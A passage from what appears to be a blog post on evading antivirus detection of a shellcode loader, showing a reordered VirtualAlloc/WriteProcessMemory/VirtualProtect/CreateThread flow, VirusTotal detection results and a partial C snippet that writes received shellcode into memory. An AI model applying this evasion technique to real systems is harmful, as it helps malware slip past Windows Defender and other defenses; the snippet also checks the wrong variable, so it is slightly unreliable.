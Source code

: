 ![Spawning Calculator](/assets/img/Can-Shellcode-be-Stored-Anywhere-to-Avoid-Detection/spawningReverseShell.gif)

First lets see if changing the execution flow has any affect on that.

The new execution flow will have 1 extra step in it:

1. VirtualAlloc
2. WriteProcessMemory
3. VirtualProtect
4. CreateThread

Instead of the initial allocated region having READ, WRITE, and EXECUTE, it will instead just have READ and WRITE initially until the shellcode is written to that region of memory. It will then be changed to READ and EXECUTE. This change actually had an increase in a detection on VirusTotal to **12/71**, but the application is no longer flagged by Windows Defender when writing something to a file.

```c
//Allocate a page of memory with READ/WRITE permissions set
LPVOID buffer = VirtualAlloc(0, DEFAULT_BUFLEN, MEM_COMMIT, PAGE_READWRITE);

if (buffer == NULL) {
    printf("[-] Failed in allocating buffer %d\n", GetLastError());
    return 9;
}

HANDLE currentProcess;
HANDLE hThread;
currentProcess = GetCurrentProcess();

//Write shellcode to newly created page of memory
BOOL result1 = WriteProcessMemory(currentProcess, buffer, &recvbuf, DEFAULT_BUFLEN, NULL);
if (result == 0) {
    printf("[-] Failed to write process memory with error %d\n", GetLastError());
}
```